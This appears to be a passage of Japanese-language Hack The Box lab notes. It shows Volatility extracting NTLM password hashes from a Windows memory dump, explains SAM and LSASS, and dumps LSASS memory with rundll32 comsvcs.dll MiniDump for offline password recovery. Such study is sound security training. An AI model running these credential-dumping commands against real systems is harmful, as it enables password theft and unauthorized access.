   ```console
  WARNING : volatility.debug    : Alignment of WindowsCrashDumpSpace64 is too small, plugins will be extremely slow
  WARNING : volatility.debug    : Alignment of WindowsCrashDumpSpace64 is too small, plugins will be extremely slow
  WARNING : volatility.debug    : Alignment of WindowsCrashDumpSpace64 is too small, plugins will be extremely slow
            Suggested Profile(s) : Win2016x64_14393, Win8SP0x64, Win10x64_17134, Win81U1x64, Win10x64_10240_17770, Win10x64_18362, Win10x64_14393, Win10x64, Win2012R2x64_18340, Win10x64_16299, Win2012R2x64, Win10x64_19041, Win2012x64, Win10x64_17763, Win8SP1x64_18340, Win10x64_10586, Win8SP1x64, Win10x64_15063 (Instantiated with Win10x64_15063)
                       AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                       AS Layer2 : WindowsCrashDumpSpace64 (Unnamed AS)
                       AS Layer3 : FileAddressSpace (/home/rio/Htb/Silo/SILO-20180105-221806.dmp)
                        PAE type : No PAE
                             DTB : 0x1a7000L
                            KDBG : 0xf80078520a30L
            Number of Processors : 2
       Image Type (Service Pack) : 0
                  KPCR for CPU 0 : 0xfffff8007857b000L
                  KPCR for CPU 1 : 0xffffd000207e8000L
               KUSER_SHARED_DATA : 0xfffff78000000000L
             Image date and time : 2018-01-05 22:18:07 UTC+0000
       Image local date and time : 2018-01-05 22:18:07 +0000
  
  ┌─[✗]─[rio@parrot]─[~/Htb/Silo]
  └──╼ $vol.py -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
  Volatility Foundation Volatility Framework 2.6.1
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
  ```

## SAMとLSASS
* SAMは認証情報のハッシュを保存するデータベース

* LSASSは、SAMにアクセスし、ユーザが入力した認証情報を検証するサービス

* SAMからはNTLMハッシュ(パスワードハッシュ)が取得可能

* LSASSのプロセスダンプからは、mimiktazを利用してパスワードそのものが取得可能

* Htb: Atom

  ```console
  C:\Users\Public> tasklist | find "lsass.exe"
  lsass.exe                      648 Services                   0     52,684 K
  
  C:\Users\Public> rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 648 C:\Users\Public\lsass.dmp full
  
  C:\Users\Public> dir
   Volume in drive C has no label.
   Volume Serial Number is 9793-C2E6
  
   Directory of C:\Users\Public
  
  09/09/2021  12:18 AM    <DIR>          .
  09/09/2021  12:18 AM    <DIR>          ..
  09/09/2021  12:18 AM    <DIR>          Documents
  04/01/2021  04:42 AM    <DIR>          Downloads
  09/09/2021  12:18 AM        53,953,098 lsass.dmp
  04/01/2021  04:42 AM    <DIR>          Music
  04/01/2021  04:42 AM    <DIR>          Pictures
  04/01/2021  04:42 AM    <DIR>          Videos
                 1 File(s)     53,953,098 bytes
  ```